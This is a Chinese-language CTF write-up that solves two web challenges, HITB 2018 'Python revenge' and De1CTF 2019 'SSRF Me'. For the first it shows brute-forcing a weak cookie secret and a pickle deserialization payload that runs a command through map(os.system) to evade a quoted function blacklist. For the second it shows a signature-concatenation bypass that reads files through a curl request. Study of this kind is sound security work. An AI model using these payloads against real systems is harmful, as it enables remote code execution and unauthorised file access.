 ### CTF

#### Python revenge

https://github.com/p4-team/ctf/blob/master/2018-04-11-hitb-quals/web_python/revenge.py

先查看首页，也就是根目录的路由代码

```python
def home():
    remembered_str = 'Hello, here\'s what we remember for you. And you can change, delete or extend it.'
    new_str = 'Hello fellow zombie, have you found a tasty brain and want to remember where? Go right here and enter it:'
    location = getlocation()
    if location == False:
        return redirect(url_for("clear"))
    return render_template('index.html', txt=remembered_str, location=location)
```

先走一次`getlocation`判断，然后根据返回来判断是否跳转。查看函数。获取cookie值，不存在返回空，再回到上面的函数执行路由`clear`。存在的话，执行一次cookie的比对，比对的方式是重新计算cookie和获取到的比对。如果一致则代表通过，否则返回false。通过后调用`loads`来解析。

```python
def getlocation():
    cookie = request.cookies.get('location')
    if not cookie:
        return ''
    (digest, location) = cookie.split("!")
    if not safe_str_cmp(calc_digest(location, cookie_secret), digest):
        flash("Hey! This is not a valid cookie! Leave me alone.")
        return False
    location = loads(b64d(location))
    return location
```

`calc_digest`函数就是计算cookie的函数，获取到一个sha256的加密值，其中secret是随机生成的四位字符串

```python
def calc_digest(location, secret):
    return sha256("%s%s" % (location, secret)).hexdigest()
```

```python
if not os.path.exists('.secret'):
    with open(".secret", "w") as f:
        secret = ''.join(random.choice(string.ascii_letters + string.digits)
                         for x in range(4))
        f.write(secret)
with open(".secret", "r") as f:
    cookie_secret = f.read().strip()
```

然后再去看一下如果不存在cookie的情况下，如何去生成cookie。`reminder()`函数，从表单接收reminder参数。参数序列化进行base64编码，生成一个名为location的Cookie值。在跳转到首页，如果只是GET请求，会先验证cookie的真实性，然后再根据返回来判断是否清除cookie。

```python
def reminder():
    if request.method == 'POST':
        location = request.form["reminder"]
        if location == '':
            flash("Message cleared, tell us when you have found more brains.")
        else:
            flash("We will remember where you find your brains.")
        location = b64e(pickle.dumps(location))
        cookie = make_cookie(location, cookie_secret)
        response = redirect(url_for('home'))
        response.set_cookie('location', cookie)
        return response
    location = getlocation()
    if location == False:
        return redirect(url_for("clear"))
    return render_template('reminder.html')
```

所以大致流程已经清楚，根据提交的值--序列化为base64的值--验证通过后反序列化返回cookie。所以这里就是对python反序列化的构造和应用。

我们先获取一个cookie，构造一个字符串到reminder页面。可以获取如下一个cookie，要经过验证就要判断`VnNzc3MKcDAKLg==`和密钥的sha256加密等于前面的字符串。所以需要提前知道密钥是多少，但是密钥是四位的，所以我们可以采用爆破的形式来破解密钥。

```
location=95f773f3adc8968a30d4d537954e71e73e3e34e44ed603fa9a7664ed9ece08bf!VnNzc3MKcDAKLg==
```

使用如下脚本爆破出密钥为`T9di`

```
>>> while True:
...     sercet = ''.join(random.choice(string.ascii_letters + string.digits) for x in range(4))
...     if sha256("%s%s" % ("VnNzc3MKcDAKLg==", sercet)).hexdigest() == "95f773f3adc8968a30d4d537954e71e73e3e3
4e44ed603fa9a7664ed9ece08bf":
...             print(sercet)
...             break
```

构造一个反序列化opcode的时候有一个黑名单限制使用函数

```
black_type_list = [eval, execfile, compile, open, file, os.system, os.popen, os.popen2, os.popen3, os.popen4, os.fdopen, os.tmpfile, os.fchmod, os.fchown, os.open, os.openpty, os.read, os.pipe, os.chdir, os.fchdir, os.chroot, os.chmod, os.chown, os.link, os.lchown, os.listdir, os.lstat, os.mkfifo, os.mknod, os.access, os.mkdir, os.makedirs, os.readlink, os.remove, os.removedirs, os.rename, os.renames, os.rmdir, os.tempnam, os.tmpnam, os.unlink, os.walk, os.execl, os.execle, os.execlp, os.execv, os.execve, os.dup, os.dup2, os.execvp, os.execvpe, os.fork, os.forkpty, os.kill, os.spawnl, os.spawnle, os.spawnlp, os.spawnlpe, os.spawnv, os.spawnve, os.spawnvp, os.spawnvpe, pickle.load, pickle.loads, cPickle.load, cPickle.loads, subprocess.call, subprocess.check_call, subprocess.check_output, subprocess.Popen, commands.getstatusoutput, commands.getoutput, commands.getstatus, glob.glob, linecache.getline, shutil.copyfileobj, shutil.copyfile, shutil.copy, shutil.copy2, shutil.move, shutil.make_archive, dircache.listdir, dircache.opendir, io.open, popen2.popen2, popen2.popen3, popen2.popen4, timeit.timeit, timeit.repeat, sys.call_tracing, code.interact, code.compile_command, codeop.compile_command, pty.spawn, posixfile.open, posixfile.fileopen]
```

禁用不够全面，可以采用其他的关键词来执行，比如使用map函数来绕过限制。

```python
class Test(object):
    def __reduce__(self):
        return map,(__import__('os').system,['whoami',])

a = Test()
payload = base64.b64encode(pickle.dumps(a))
```

然后把得到的base64值和密钥加密后发给首页根目录。

```
Cookie:location=dea18c9653ca0fb0ecd4c4d906e071270fbd168f2c64e4295a7d05b34bd080e2!Y19fYnVpbHRpbl9fCm1hcApwMAooY3Bvc2l4CnN5c3RlbQpwMQoobHAyClMnd2hvYW1pJwpwMwphdHA0ClJwNQou
```

#### SSRF ME

https://github.com/De1ta-team/De1CTF2019/blob/master/writeup/web/SSRF%20Me/docker.zip

搭建环境后，访问首页可以看到给出的源码信息，有两个路由，其中De1ta是主要访问地址

```python
def challenge():
    action = urllib.unquote(request.cookies.get("action"))
    param = urllib.unquote(request.args.get("param", ""))
    sign = urllib.unquote(request.cookies.get("sign"))
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())
```

其中从前端获取三个参数，两个是从cookie中获取，一个是参数中获取。后面有一个waf判断，先进去查看，判断协议是否为gopher或者file开头的协议请求，防止直接读取文件。

```python
def waf(param):
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False
```

过waf后，进入Task类，输出Exec函数的

```python
class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print resp
                    tmpfile.write(resp)
                    tmpfile.close()
                result['code'] = 200
            if "read" in self.action:
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
            if result['code'] == 500:
                result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
        return result

    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):
            return True
        else:
            return False
```

获取到的参数值传到类变量内，执行Exec函数，首先判断的是`checkSign`，调用的`getSign`

```python
def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()
```

其中key是不知道的，先继续看下去。校验成功后查看action是否为scan，是的话写入文件，写入的是`scan`函数的值，看到`scan`函数就知道为啥过滤协议了，这个可以任意文件读取。

```python
def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"
```

如果action为read，则读取刚才写入的文件，返回到`challenge`最终显示到页面上。`geneSign`生成一个sign值，用来返回给前端。

```python
def geneSign():
    param = urllib.unquote(request.args.get("param", ""))
    action = "scan"
    return getSign(action, param)
```

只不过这里有一个问题就是对比的问题，`geneSign`自己填充了action为scan，执行`getSign`的时候其实是

`md5(secert_key + param + 'scan')`，而上面对比的调用`getSign`的时候，传入param和action都是自己获取的。那么传入param为`flag.txtread`，action为`scan`的时候，这样跟`geneSign`调用的时候参数`param`为flag.txt，`action`为readscan时，返回的就是同一个sign。

先调用geneSign获取值为：`26fc751d30aebd74d637e9d00208a590`，再路由`De1ta`中，输入参数parma为`flag.txt`，action为`readscan`，sign就等于上面这个sign。

```
curl -i http://106.54.181.187/De1ta?param=flag.txt --header "Cookie:action=readscan;sign=26fc751d30aebd74d637e9d00208a590"
```

